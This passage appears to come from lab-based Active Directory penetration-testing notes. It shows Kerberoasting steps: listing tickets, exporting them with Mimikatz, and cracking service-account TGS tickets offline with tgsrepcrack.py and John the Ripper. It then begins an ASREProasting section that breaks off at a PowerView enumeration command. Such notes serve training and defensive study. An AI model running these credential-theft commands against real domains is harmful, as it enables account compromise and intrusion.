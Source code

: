 5. Check if the ticket has been granted:
    
    ```powershell
    klist
    ```
    
6. Export all tickets using Mimikatz:
    
    ```powershell
    # Invoke-Mimikatz
    Invoke-Mimikatz -Command '"kerberos::list /export"'
    ```
    
7. Crack the Service account password (this step can be performed on a Kali machine):
    
    ```bash
    # tgsrepcrack.py
    git clone https://github.com/nidem/kerberoast
    python3 ./tgsrepcrack.py ./10-million-password-list-top-1000000.txt ./240a10000-student1@ops~whatever1CYBERLAB.CYBERCORP.LOCAL.kirbi
    ```
    
    the same TGS can also be cracked by using `john`, but it must be firstly converted into a compatible format:
    
    ```bash
    # tgsrepcrack.py
    python3 ./kirbi2john.py -o ./tgs.john ./240a10000-STUDENT1@MSSQLSvc~database.cyberlab.cybercorp.localCYBERLAB.LOCAL.kirbi
    
    # JohnTheRipper
    /usr/sbin/john --format=krb5tgs ./tgs.john --wordlist=./10-million-password-list-top-1000000.txt
    ```
    

## ASREProasting (AS-REP)

If a user’s *UserAccountControl* settings have *Do not require Kerberos preauthentication* enabled, i.e. Kerberos preauth is disabled, it is possible to grab user’s crackable AS-REP and brute-force it offline. With sufficient rights (*GenericWrite* or *GenericAll*), Kerberos preauth can be forced disabled as well.

1. Enumerating accounts with Kerberos Preauth disabled:
    
    ```powershell
    # PowerView_dev
    Get-DomainUser -PreauthNotRequired -Verbose
    